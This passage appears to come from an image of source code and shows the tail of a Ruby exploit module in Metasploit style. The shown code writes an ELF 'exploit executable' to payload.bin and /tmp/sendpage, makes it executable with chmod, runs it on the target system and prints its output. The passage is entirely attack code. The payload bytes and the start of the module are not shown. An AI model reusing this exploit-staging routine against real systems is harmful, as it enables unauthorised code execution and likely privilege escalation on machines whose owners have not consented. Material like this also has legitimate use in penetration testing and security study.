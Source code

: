             #puts Rex::Text.to_hex_dump(foo)
            File.open("payload.bin", "wb") {|fd|
                fd.write elf
            }
            print_status "Writing exploit executable (#{elf.length} bytes)"
            cmd_exec("rm /tmp/sendpage")
            write_file("/tmp/sendpage", elf)
            output = cmd_exec("chmod +x /tmp/sendpage; /tmp/sendpage")
            output.each_line { |line| print_debug line.chomp }
            #cmd_exec("rm /tmp/sendpage")

        end

    end